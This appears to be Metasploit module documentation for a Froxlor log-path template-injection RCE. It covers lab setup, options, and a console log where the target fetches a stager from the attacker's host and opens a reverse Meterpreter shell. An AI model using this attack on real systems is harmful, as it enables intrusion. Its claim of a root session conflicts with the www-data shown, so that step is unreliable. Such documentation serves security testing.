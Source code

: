 ## Vulnerable Application

Froxlor is an open source web hosting control panel. Froxlor v2.0.6 and below suffers from a bug that allows
authenticated users to change the application logs path to any directory on the OS level which the user www-data can
write without restrictions from the backend which leads to writing a malicious Twig template that the application will
render. That will lead to achieving a remote command execution under the user www-data.

### Setup
Install php 8.1 and MySQL. Download the vulnerable Froxlor application and place it in Ubuntu's default webroot. The
below instruction set should be able to be copy and pasted into a terminal in order to deploy a vulnerable application.
```
sudo add-apt-repository ppa:ondrej/php
sudo apt install php8.1
sudo apt install php8.1-common php8.1-mysql php8.1-xml php8.1-xmlrpc php8.1-curl php8.1-gd php8.1-imagick php8.1-cli php8.1-dev php8.1-imap php8.1-mbstring php8.1-opcache php8.1-soap php8.1-zip php8.1-redis php8.1-intl php8.1-gmp php8.1-bcmath -y
wget https://files.froxlor.org/releases/froxlor-2.0.3.tar.gz
gunzip froxlor-2.0.3.tar.gz
tar -xvf froxlor-2.0.3.tar
sudo rm /var/www/html/index.html
sudo cp -r froxlor /var/www/html/
cd /var/www/html/
sudo chown -R www-data:www-data ./
sudo apt install mysql-server
`sudo systemctl start mysql.service`
sudo mysql
mysql> ALTER USER 'root'@'localhost' IDENTIFIED WITH mysql_native_password BY 'notpassword';
mysql> quit;
sudo systemctl restart apache2
```

After the above completes successfully, navigate to http://localhost/froxlor to finish the web-based portion of the
installation. Accept the EULA and input the database credentials and then start the application. 

## Options

### TARGETURI

The base URI path of Froxlor. **Default: /froxlor**

### WEB_ROOT

The webroot of the Froxlor server. The webroot must be known in order to write the absolute path of the logfile. The
default options assumes Froxlor is installed on an Ubuntu machine: **Default: /var/www/html**


## Verification Steps

1. Start msfconsole
1. Do: `use exploit/linux/http/froxlor_log_path_rce`
1. Set the `RHOSTS`, `LHOST`, `USERNAME`, and `PASSWORD` options
1. Run the module
1. Receive a Meterpreter session as the `root` user.

## Scenarios
### Ubuntu 20.04, Froxlor 2.0.3 running on Apache, MySQL and PHP 8.1
```
msf6 > use exploit/linux/http/froxlor_log_path_rce
[*] Using exploit/linux/http/froxlor_log_path_rce
msf6 exploit(linux/http/froxlor_log_path_rce) > set rhosts 172.16.199.140
rhosts => 172.16.199.140
msf6 exploit(linux/http/froxlor_log_path_rce) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf6 exploit(linux/http/froxlor_log_path_rce) > set lport 9191
lport => 9191
msf6 exploit(linux/http/froxlor_log_path_rce) > set username admin
username => admin
msf6 exploit(linux/http/froxlor_log_path_rce) > set password notpassword
password => notpassword
msf6 exploit(linux/http/froxlor_log_path_rce) > rexploit
[*] Reloading module...

[*] Started reverse TCP handler on 172.16.199.1:9191
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Successful login
[+] The target appears to be vulnerable. Vulnerable version found: 2.0.3
[+] Successfully Logged in!
[+] CSRF token is : 5701b7e6335ab13e20e91845b210b6be0bea7621
[+] Changed logfile path to: /var/www/html/froxlor/templates/Froxlor/footer.html.twig
[*] Using URL: http://172.16.199.1:8080/ygs3pAWMRNIs
[+] Injected payload sucessfully
[*] Changing logfile path back to default value while triggering payload: /var/www/html/froxlor/logs/froxlor.log
[*] Client 172.16.199.140 (Wget/1.20.3 (linux-gnu)) requested /ygs3pAWMRNIs
[*] Sending payload to 172.16.199.140 (Wget/1.20.3 (linux-gnu))
[*] Sending stage (3045348 bytes) to 172.16.199.140
[*] Cleaning up...
[*] Deleting tampered footer.html.twig file
[*] Rewriting clean footer.html.twig file
[*] Meterpreter session 3 opened (172.16.199.1:9191 -> 172.16.199.140:50398) at 2023-02-13 18:20:02 -0500
[*] Command Stager progress - 100.00% done (117/117 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer     : 172.16.199.140
OS           : Ubuntu 20.04 (Linux 5.15.0-58-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
